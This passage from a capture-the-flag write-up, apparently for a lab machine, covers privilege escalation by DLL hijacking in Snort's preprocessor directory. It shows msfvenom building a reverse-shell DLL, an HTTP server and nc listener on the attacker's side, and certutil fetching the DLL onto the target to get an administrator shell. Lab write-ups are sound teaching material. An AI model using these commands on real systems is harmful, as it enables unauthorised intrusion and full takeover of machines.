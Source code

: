 It's using `C:\Snort\lib\snort_dynamicpreprocessor` as directory to load DLLs, so we can load a malicious DLL and perform a DLL injection because it's running. In the case that the Administrator is who opens snort.exe, we will gain a reverse shell. For this I will use msfvenom:

```bash
❯ msfvenom -p windows/x64/shell_reverse_tcp -f dll -o test.dll LHOST=tun0 LPORT=443
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of dll file: 9216 bytes
Saved as: test.dll
❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Also, in another window, spawn a nc listener to receive the shell:

```bash
❯ nc -lvnp 443
listening on [any] 443 ...

```

Download the test.dll in the library directory that is used and we receive the shell:

```powershell
*Evil-WinRM* PS C:\Snort\etc> cd ..\lib\snort_dynamicpreprocessor
*Evil-WinRM* PS C:\Snort\lib\snort_dynamicpreprocessor> certutil.exe -f -urlcache -split http://10.10.14.225/test.dll
****  Online  ****
  0000  ...
  2400
CertUtil: -URLCache command completed successfully.
*Evil-WinRM* PS C:\Snort\lib\snort_dynamicpreprocessor> 
```

And we receive the shell as administrateur (which is Administrator in french):

![Administrator shell received](/assets/images/Analysis/administrator_shell_received.png)

Now we can see root.txt:

